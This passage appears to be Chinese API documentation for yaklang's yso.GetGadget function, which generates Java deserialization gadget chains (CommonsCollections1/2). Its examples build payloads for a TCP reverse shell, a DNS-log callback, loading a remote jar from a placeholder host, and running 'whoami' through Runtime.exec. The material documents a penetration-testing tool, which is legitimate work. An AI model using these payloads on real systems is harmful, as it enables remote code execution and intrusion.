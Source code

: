 **请求参数**

- `name` : Java对象的名称
- `opts` : 可选参数，根据不同情况传入不同的参数

**返回类型**

- `r1` : 生成的Java对象
- `r2` : 错误信息，如果生成过程中出现错误则返回

## 示例代码

### 基础用法

生成一个没有任何参数的Java对象

```yaklang
GetGadget("CommonsCollections1")
```

生成一个具有一个参数并由TemplateImpl实现的Java对象

```yaklang
GetGadget("CommonsCollections2", "Sleep", "1000")
```

生成一个具有多个参数并由TemplateImpl实现的Java对象

```yaklang
GetGadget("CommonsCollections2", "TcpReverseShell", map[string]string{"host": "127.0.0.1","port":"8080"})
```

生成一个具有一个参数并由TransformChain实现的Java对象

```yaklang
GetGadget("CommonsCollections1", "dnslog", "xxx.xx.com")
```

生成一个具有多个参数并由TransformChain实现的Java对象

```yaklang
GetGadget("CommonsCollections1", "loadjar", map[string]string{"url": "xxx.com", "name": "exp"})
```

生成一个由TemplateImpl实现的Java对象

```yaklang
GetGadget("CommonsCollections2", useRuntimeExecEvilClass("whoami"))
```

## 37. `yso.GetGadgetNameByFun`

## 功能描述

从函数指针获取 gadget 名称，通过解析函数名来提取。

## 参数说明
